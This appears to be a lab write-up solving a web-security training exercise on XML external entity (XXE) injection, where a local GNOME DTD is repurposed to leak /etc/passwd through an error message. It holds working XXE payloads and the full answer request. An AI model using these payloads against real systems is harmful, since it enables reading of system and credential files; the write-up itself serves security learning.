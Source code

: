 ### Lab: Exploiting XXE to retrieve data by repurposing a local DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

Systems using the GNOME desktop environment often have a DTD at** /usr/share/yelp/dtd/docbookx.dtd** containing an entity called **ISOamso.**

**Checking file existence ->**

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

**Base payload ->**

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>3</productId>
		<storeId>1</storeId>
	</stockCheck>
```

**Answer ->**

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
	<!ENTITY % local_dtd SYSTEM "file:////usr/share/yelp/dtd/docbookx.dtd">
	<!ENTITY % ISOamso '
	<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
	'>
	%local_dtd;
	]>
	<stockCheck>
		<productId>3</productId>
		<storeId>1</storeId>
	</stockCheck>
```
